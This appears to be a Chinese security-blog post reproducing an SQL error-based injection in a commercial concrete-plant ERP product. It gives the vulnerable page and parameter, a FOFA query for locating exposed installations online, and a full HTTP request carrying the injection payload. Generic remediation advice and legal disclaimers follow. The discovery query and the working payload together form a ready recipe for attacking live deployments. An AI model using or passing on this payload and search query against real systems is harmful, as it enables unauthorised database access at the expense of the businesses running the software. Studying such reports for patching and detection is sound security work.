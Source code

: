 #  商混ERP系统 SQL注入漏洞复现   
孔方兄  巢安实验室   2025-01-21 06:30  
  
## 一、漏洞介绍  
## 杭州荷花软件有限公司开发的商混ERP系统。这套系统主要是处理建筑公司或者各项工程的搅拌站管理，内部含有销售模块、生产管理模块、实验室模块、人员管理等，该公司的商品混凝土ERP系统/Sys/DictionaryEdit.aspx处dict_key参数存在SQL报错注入漏洞，攻击者可通过该漏洞获取数据库权限。  
## 二、漏洞影响版本  
  
商混ERP系统  
## 三、FOFA语句  
```
app="商混ERP系统"
```  
## 四、漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVxbzl7jZJ6kSk7cFOGFBRcuvsD7AibDD0RCTtC3BKEOqDBgYab4KdqWzzrbX52XIbCiaF9mwNnOzOMQ/640?wx_fmt=png&from=appmsg "")  
```
GET /Sys/DictionaryEdit.aspx?dict_key=1%27%20and%201=convert(varchar(255),@@version)-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVxbzl7jZJ6kSk7cFOGFBRcun1l4UQG2xtE7CTc6VCKkaR8WicicNljdlaqKyibicOvj237DHlfvKwHibpA/640?wx_fmt=png&from=appmsg "")  
  
五、修复建议  
  
  
1、使用预编译语句，所有的查询语句都使用数据库提供的参数化査询接口，参数化的语句使用参数而不是将用户输入变量嵌入到SQL语句中。当前几乎所有的数据库系统都提供了参数化SQL语句执行接口，使用此接口可以非常有效的防止SQL注入攻击。  
  
2、对进入数据库的特殊字符("@&*;等)进行转义处理，或编码转换,  
  
3、确认每种数据的类型，比如数字型的数据就必须是数字，数据库中的存储字段必须对应为int型  
  
4、过滤危险字符，例如:采用正则表达式匹配union、sleep、and、select、load_file等关键字，如果匹配到则终止运行。  
  
六、参考链接  
```
https://blog.csdn.net/qq_41904294/article/details/134636414
https://gobysec.net/updates#2023%E5%B9%B4%E7%AC%AC17%E5%91%A8
```  
  
真心感觉自己要学习的知识好多，也有好多大神卧虎藏龙、开源分享。作为初学者，我们可能有差距，不论你之前是什么方向，是什么工作，是什么学历，是大学大专中专，亦或是高中初中，只要你喜欢安全，喜欢渗透，就朝着这个目标去努力吧！有差距不可怕，我们需要的是去缩小差距，去战斗，况且这个学习的历程真的很美，安全真的有意思。但切勿去做坏事，我们需要的是白帽子，是维护我们的网络，安全路上共勉。  
  
  
**本文版权归作者和微信公众号平台共有，重在学习交流，不以任何盈利为目的，欢迎转载。**  
  
****  
**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。公众号内容中部分攻防技巧等只允许在目标授权的情况下进行使用，大部分文章来自各大安全社区，个人博客，如有侵权请立即联系公众号进行删除。若不同意以上警告信息请立即退出浏览！！！**  
  
****  
**敲敲小黑板：《刑法》第二百八十五条　【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。**  
  
